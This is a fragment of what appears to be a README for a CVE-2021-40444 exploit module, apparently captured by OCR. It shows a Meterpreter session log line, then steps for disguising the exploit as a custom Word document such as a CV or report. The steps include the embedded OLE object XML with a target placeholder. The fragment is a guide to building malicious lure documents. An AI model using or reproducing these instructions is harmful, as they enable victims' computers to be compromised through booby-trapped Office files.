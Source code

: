     [*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.7.36:57920) at 2021-11-05 16:41:13 +0400
    ```

### Using custom template

1. Generate a custom DOCX template

    You need to create new office document and personalizing it by your own model (CV, Report, ...).
    
    The easy way, copy and paste (keep formating) from `data/exploits/cve-2021-40444.docx`.
    
    You can copy this anywhere in the document.
    
    Save the document and unpack this.
    
    Check that `word/documment.xml` contains something like:
    
    ```
    &lt;w:object w:dxaOrig=&quot;4320&quot; w:dyaOrig=&quot;4320&quot;&gt;
      &lt;v:shapetype id=&quot;_x0000_t75&quot; coordsize=&quot;21600,21600&quot; o:spt=&quot;75&quot; o:preferrelative=&quot;t&quot; path=&quot;m@4@5l@4@11@9@11@9@5xe&quot; filled=&quot;f&quot; stroked=&quot;f&quot;&gt;
        &lt;v:stroke joinstyle=&quot;miter&quot;/&gt;
        &lt;v:formulas&gt;
          &lt;v:f eqn=&quot;if lineDrawn pixelLineWidth 0&quot;/&gt;
          &lt;v:f eqn=&quot;sum @0 1 0&quot;/&gt;
          &lt;v:f eqn=&quot;sum 0 0 @1&quot;/&gt;
          &lt;v:f eqn=&quot;prod @2 1 2&quot;/&gt;
          &lt;v:f eqn=&quot;prod @3 21600 pixelWidth&quot;/&gt;
          &lt;v:f eqn=&quot;prod @3 21600 pixelHeight&quot;/&gt;
          &lt;v:f eqn=&quot;sum @0 0 1&quot;/&gt;
          &lt;v:f eqn=&quot;prod @6 1 2&quot;/&gt;
          &lt;v:f eqn=&quot;prod @7 21600 pixelWidth&quot;/&gt;
          &lt;v:f eqn=&quot;sum @8 21600 0&quot;/&gt;
          &lt;v:f eqn=&quot;prod @7 21600 pixelHeight&quot;/&gt;
          &lt;v:f eqn=&quot;sum @10 21600 0&quot;/&gt;
        &lt;/v:formulas&gt;
        &lt;v:path o:extrusionok=&quot;f&quot; gradientshapeok=&quot;t&quot; o:connecttype=&quot;rect&quot;/&gt;
        &lt;o:lock v:ext=&quot;edit&quot; aspectratio=&quot;t&quot;/&gt;
      &lt;/v:shapetype&gt;
      &lt;v:shape id=&quot;_x0000_i1025&quot; type=&quot;#_x0000_t75&quot; style=&quot;width:3.75pt;height:3.75pt&quot; o:ole=&quot;&quot;&gt;
        &lt;v:imagedata r:id=&quot;rId4&quot; o:title=&quot;&quot; cropbottom=&quot;64444f&quot; cropright=&quot;64444f&quot;/&gt;
      &lt;/v:shape&gt;
      &lt;o:OLEObject Type=&quot;Link&quot; ProgID=&quot;TARGET_HERE&quot; ShapeID=&quot;_x0000_i1025&quot; DrawAspect=&quot;Content&quot; r:id=&quot;rId5&quot; UpdateMode=&quot;OnCall&quot;&gt;
        &lt;o:LinkType&gt;EnhancedMetaFile&lt;/o:LinkType&gt;
        &lt;o:LockedField&gt;false&lt;/o:LockedField&gt;
        &lt;o:FieldCodes&gt;\f 0&lt;/o:FieldCodes&gt;
      &lt;/o:OLEObject&gt;
    &lt;/w:object&gt;
    ```
    